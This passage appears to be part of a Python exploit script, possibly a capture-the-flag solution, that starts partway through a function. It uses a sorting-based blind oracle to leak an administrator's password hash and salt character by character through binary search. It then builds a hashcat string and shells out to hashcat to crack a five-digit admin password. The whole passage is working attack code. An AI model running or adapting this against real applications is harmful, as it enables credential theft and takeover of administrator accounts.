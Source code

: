 ```python
      return 1
    if username.lower() in repr(user).lower():
      return -1
    
def leak_field(field_name, length, alphabet=string.hexdigits.lower()):
  field_value = ""
  while len(field_value) != length:
    L = 0
    R = len(alphabet)

    while L < R:
      M = (L + R) // 2
      if L == M:
        break
      guess = alphabet[M]
      field_value_guess = field_value + guess
      pos = changeField(field_name, field_value_guess)
      if pos == -1:
        L = M
      else:
        R = M
    if len(field_value) != length - 1:
      field_value += alphabet[L]
      print(f"[*] FOUND: {field_value} [{len(field_value)}/{length}]")
    else:
      # Final check character is a headache
      if L == 0:
        if changeField(field_name, field_value + alphabet[L]) == -1:
          field_value += alphabet[L + 1]
        else:
          field_value += alphabet[L]
      else:
        field_value += alphabet[L + 1]
      print(f"[*] FOUND: {field_value} [{len(field_value)}/{length}]")
  return field_value

############## PART 1 ##############
print("[!] ############## PART 1 ##############")
print("[!] Leaking admin hash")
admin_hash = leak_field('hash', 64)
print("[!] Leaking admin salt")
admin_salt = leak_field('salt', 32)
hash_cat_string = f"sha256:25000:{b64encode(admin_salt.encode()).decode()}:{b64encode(unhexlify(admin_hash)).decode()}"
print(f"[*] hashcat string: {hash_cat_string}")
hash_file = "hash"
with open(hash_file, 'w') as f:
  f.write(hash_cat_string)
hashcat_command = f"hashcat -a 3 -m 10900 {hash_file} ?d?d?d?d?d"
print(f"[!] Cracking with hashcat: hashcat -a 3 -m 10900 {hash_file} ?d?d?d?d?d")

try:
    output = subprocess.check_output(hashcat_command, shell=True).decode("utf-8")
    if "--show" in output:
      output = subprocess.check_output(hashcat_command + " --show", shell=True).decode("utf-8")
    admin_password = output.split(hash_cat_string + ":")[1].split("\n")[0]
    print(f"[+] Found admin password: { admin_password }")
except subprocess.CalledProcessError as e:
    print(f"Error executing hashcat command: {e}")
    if os.path.exists(hash_file):
      os.remove(hash_file)
    exit()

```